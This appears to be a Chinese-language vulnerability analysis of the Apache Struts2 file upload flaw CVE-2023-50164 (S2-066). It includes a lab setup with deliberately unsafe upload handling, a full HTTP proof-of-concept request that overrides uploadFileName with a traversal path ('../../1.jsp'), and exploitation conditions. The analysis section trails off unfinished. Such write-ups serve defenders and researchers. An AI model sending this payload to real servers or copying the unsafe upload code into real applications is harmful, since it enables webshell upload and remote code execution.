

**CVE-2023-50164**、**S2-066**，在Struts2的文件上传`FileUploadInterceptor` 处理过程中，为了方便用户会自动将上传的文件、文件名、参数等通过setter方式赋值给用户的逻辑，而这部分可以通过用户传递的文件名参数、覆盖Strust2自动设置的文件名的方式来绕过Struts2的文件名限制，进行目录穿越进而达到RCE的效果。

> An attacker can manipulate file upload params to enable paths traversal and under some circumstances this can lead to uploading a malicious file which can be used to perform Remote Code Execution.
>
> https://cwiki.apache.org/confluence/display/WW/S2-066


影响版本：

* Struts 2.0.0 - Struts 2.3.37 
* Struts 2.5.0 - Struts 2.5.32
* Struts 6.0.0 - Struts 6.3.0


# 环境搭建

Struts2 配置文件，定义了路径、处理方法、前端页面

```
<!DOCTYPE struts PUBLIC
	"-//Apache Software Foundation//DTD Struts Configuration 6.0//EN"
	"https://struts.apache.org/dtds/struts-6.0.dtd">

<struts>
	<package name="fileupload" extends="struts-default" namespace="/fileupload">
        <action name="doUpload" class="org.apache.struts2.showcase.fileupload.FileUploadAction" method="upload">
        	<result name="input">/WEB-INF/fileupload/upload.jsp</result>
			<result>/WEB-INF/fileupload/upload-success.jsp</result>
		</action>

    </package>
</struts>
```

前端jsp ，注意`<s:file name="upload" label="File"/>` 表示字段名是`upload`

```jsp
<%@ taglib prefix="s" uri="/struts-tags" %>
<html>
<head>
    <title>Struts2 Showcase - Fileupload sample</title>
</head>

<body>
    <div class="page-header">
	    <h1>Fileupload sample</h1>
    </div>

    <div class="container-fluid">
	    <div class="row">
		    <div class="col-md-12">
			    <s:actionerror cssClass="alert alert-error"/>
				<s:fielderror cssClass="alert alert-error"/>
			    <s:form action="doUpload" method="POST" enctype="multipart/form-data">
			        <s:file name="upload" label="File"/>
			        <s:textfield name="caption" label="Caption"/>
			        <s:submit cssClass="btn btn-primary"/>
			    </s:form>
		    </div>
	    </div>
    </div>
</body>
</html>
```

业务处理逻辑，Struts2会自动将上传的文件传递给下面的upload字段，文件名赋值给fileName字段等。

```java
package org.apache.struts2.showcase.fileupload;

import com.opensymphony.xwork2.ActionSupport;
import org.apache.commons.io.FileUtils;
import org.apache.struts2.ServletActionContext;

import java.io.File;

/**
 * Show case File Upload example's action. <code>FileUploadAction</code>
 */
public class FileUploadAction extends ActionSupport {

	private static final long serialVersionUID = 5156288255337069381L;

	private String contentType;
	private File upload;
	private String fileName;
	private String caption;

	public String input() throws Exception {
		return SUCCESS;
	}

	public String upload() throws Exception {
		String path = ServletActionContext.getServletContext().getRealPath("/")+"upload";
		System.out.println("this.getUploadFileName(): " + this.getUploadFileName());
		System.out.println("upload path: " + path);
		String realPath = path + File.separator + this.getUploadFileName();
		try {
			FileUtils.copyFile(upload, new File(realPath));
		} catch (Exception e) {
			e.printStackTrace();
		}


		return SUCCESS;
	}

	// since we are using <s:file name="upload" .../> the file name will be
	// obtained through getter/setter of <file-tag-name>FileName
	public String getUploadFileName() {
		return fileName;
	}

	public void setUploadFileName(String fileName) {
		this.fileName = fileName;
	}


	// since we are using <s:file name="upload" ... /> the content type will be
	// obtained through getter/setter of <file-tag-name>ContentType
	public String getUploadContentType() {
		return contentType;
	}

	public void setUploadContentType(String contentType) {
		this.contentType = contentType;
	}


	// since we are using <s:file name="upload" ... /> the File itself will be
	// obtained through getter/setter of <file-tag-name>
	public File getUpload() {
		return upload;
	}

	public void setUpload(File upload) {
		this.upload = upload;
	}


	public String getCaption() {
		return caption;
	}

	public void setCaption(String caption) {
		this.caption = caption;
	}

        public long getUploadSize() {
            if (upload != null) {
                return upload.length();
            } else {
                return 0;
            }
        }
}

```


# POC及利用条件

POC： 

注意 `uploadFileName` 这是上面的代码中由Strust2自动赋值过来的参数，下面通过手动传递进行覆盖

```http
POST /struts2_showcase_war/fileupload/doUpload.action HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------21972861871679732823856174094
Content-Length: 472
Origin: http://localhost:8080
Connection: close
Referer: http://localhost:8080/struts2_showcase_war/fileupload/upload.action
Cookie: JSESSIONID=5B04BC8FA13D0717C172C4AF150FB093
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------21972861871679732823856174094
Content-Disposition: form-data; name="Upload"; filename="11111.txt"
Content-Type: text/plain

1111
-----------------------------21972861871679732823856174094
Content-Disposition: form-data;  name="uploadFileName"

../../1.jsp
-----------------------------21972861871679732823856174094
Content-Disposition: form-data; name="caption"

3333
-----------------------------21972861871679732823856174094--

```

**利用条件：**

1. 首先要知道 文件上传代码中的文件名字段名， 这里上传名是 `upload` （由jsp中定义），文件名字段按照习惯可能会是`UploadFileName` ，如果不是则无法覆盖

   > Content-Disposition: form-data; name="Upload"; filename="11111.txt"
   >
   > Content-Disposition: form-data;  name="uploadFileName"

2. 这个洞的利用点就在通过自己传的文件名覆盖掉Strust2自动赋值的文件名，所以如果原来程序逻辑本来就是获取文件名，根据后缀判断，那这个洞就没法利用了

   > 这么看，其实没有想象的那么严重？


# 漏洞分析

`ognl.OgnlRuntime#capitalizeBeanPropertyName`

```java
    private static String capitalizeBeanPropertyName(String propertyName) {
        if (propertyName.length() == 1) {
            return propertyName.toUpperCase();
        }
        // don't capitalize getters/setters
        if (propertyName.startsWith(GET_PREFIX) && propertyName.endsWith("()")) {
            if (Character.isUpperCase(propertyName.substring(3,4).charAt(0))) {
                return propertyName;
            }
        }
        if (propertyName.startsWith(SET_PREFIX) && propertyName.endsWith(")")) {
            if (Character.isUpperCase(propertyName.substring(3,4).charAt(0))) {
                return propertyName;
            }
        }
        if (propertyName.startsWith(IS_PREFIX) && propertyName.endsWith("()")) {
            if (Character.isUpperCase(propertyName.substring(2,3).charAt(0))) {
                return propertyName;
            }
        }
        char first = propertyName.charAt(0);
        char second = propertyName.charAt(1);
        if (Character.isLowerCase(first) && Character.isUpperCase(second)) {
            return propertyName;
        } else {
            char[] chars = propertyName.toCharArray();
            chars[0] = Character.toUpperCase(chars[0]);
            return new String(chars);
        }
    }
```

漏洞点


22




其他利用点

